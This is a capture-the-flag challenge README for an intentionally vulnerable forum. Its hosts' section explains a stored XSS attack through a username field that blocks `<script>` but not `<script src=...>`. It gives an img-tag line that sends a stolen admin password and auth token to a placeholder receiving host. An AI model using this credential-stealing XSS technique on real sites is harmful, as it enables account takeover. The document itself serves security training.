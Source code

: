 # HackTheStack - Bad Authentiation
### John Lee (2016)

# For the challengers
This challenge is for you to login as an admin for one of the hottest forum sites to come out since Yahoo! Answers.
In the developers' haste to get the product out, they missed some vital code to keep some nasty ne'er-do-wells from getting access to their site.

However, the creators aren't completely forgetful, there are some roadblocks in the way to do this. Don't be discouraged! Most of them are still insecure if you stretch the limits. (But don't stretch too much, the website might break because of you.)

There's a rumor that one of the admins have been logging in quite often. Login as them and extract a super-secret admin code that they use for everything. Seriously. They never took `ECE 404/CS 426`.

Present the code to one of the hosts to win!

## Some hints *[only show if necessary]*
- It is not SQL injection.
- Use XSS
- Have them look at the 'recent users' area.
- If they are having problems with the max entered size, have them upload a script onto https://gist.github.com/ and embed it as their username.
- Getting around CORS
  - Try creating an \<img> with the data included as a GET parameter.
  
# Hosts Only . . .
  
## Detailed Problem
The website is supposed to emulate a forum. Most forms of auth are secure *except* the `handle` which checks for `<script>` but not `<script src= . . .`. The challenger is supposed to inject some JS that replaces the login function with one that grabs the token or password. 

### Recommendation at this point
My BIGGEST recommendation is to use https://gist.github.com/. Once there they can make something called `c.js` and put some arbituary JS code in it. once there, use the embed link[1] as their handle and voila! Injected JS that they **CAN EDIT ACTIVELY**. This way if they break the site they can just change their code here to revert it.

[1] <img src="https://cloud.githubusercontent.com/assets/5258036/20909262/64a0e79c-bb0f-11e6-939c-217a391eb930.png">

Once grabbed, it will then send it to a page that listens for any request and grabs the parameters. ( We might want to provide this ). To send it out, the easiest method is to bind it with an img tag. \<img src="https://mysecretwebsite.ioo/receive?user=admin&password=yadada&authToken=1234567">. 

Once received, they emulate that same request on the web page and get the new page, an admin page that contains the number. It only works on verified login, so they can't bypass this any other way. 
